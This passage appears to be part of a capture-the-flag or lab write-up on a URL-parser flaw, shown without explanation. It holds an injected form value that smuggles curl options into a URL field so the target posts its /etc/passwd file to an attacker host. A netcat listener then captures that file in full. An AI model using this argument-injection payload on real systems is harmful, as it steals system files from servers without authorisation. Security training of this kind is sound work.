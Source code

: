 ```c
Connection: keep-alive

url=http%3A%2F%2F10.8.0.2+-H+"asdf;"+-d+"@/etc/passwd"


```

![](images/2024-09-20_11-07_url_parser_lfi.png)

```c
┌──(kali㉿kali)-[~]
└─$ nc -lnkvp 80
listening on [any] 80 ...
connect to [10.8.0.2] from (UNKNOWN) [10.10.114.88] 34472
POST / HTTP/1.1
Host: 10.8.0.2
User-Agent: curl/7.81.0
Accept: */*
asdf\:
Content-Length: 1796
Content-Type: application/x-www-form-urlencoded

root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologinbin:x:2:2:bin:/bin:/usr/sbin/nologinsys:x:3:3:sys:/dev:/usr/sbin/nologinsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/usr/sbin/nologinman:x:6:12:man:/var/cache/man:/usr/sbin/nologinlp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologinmail:x:8:8:mail:/var/mail:/usr/sbin/nologinnews:x:9:9:news:/var/spool/news:/usr/sbin/nologinuucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologinproxy:x:13:13:proxy:/bin:/usr/sbin/nologinwww-data:x:33:33:www-data:/var/www:/usr/sbin/nologinbackup:x:34:34:backup:/var/backups:/usr/sbin/nologinlist:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologinirc:x:39:39:ircd:/run/ircd:/usr/sbin/nologingnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologinnobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin_apt:x:100:65534::/nonexistent:/usr/sbin/nologinsystemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologinsystemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologinmessagebus:x:103:104::/nonexistent:/usr/sbin/nologinsystemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologinpollinate:x:105:1::/var/cache/pollinate:/bin/falsesshd:x:106:65534::/run/sshd:/usr/sbin/nologinsyslog:x:107:113::/home/syslog:/usr/sbin/nologinuuidd:x:108:114::/run/uuidd:/usr/sbin/nologintcpdump:x:109:115::/nonexistent:/usr/sbin/nologintss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/falselandscape:x:111:117::/var/lib/landscape:/usr/sbin/nologinfwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologinusbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologinaleks:x:1000:1000:Aleks:/home/aleks:/bin/bashlxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
```
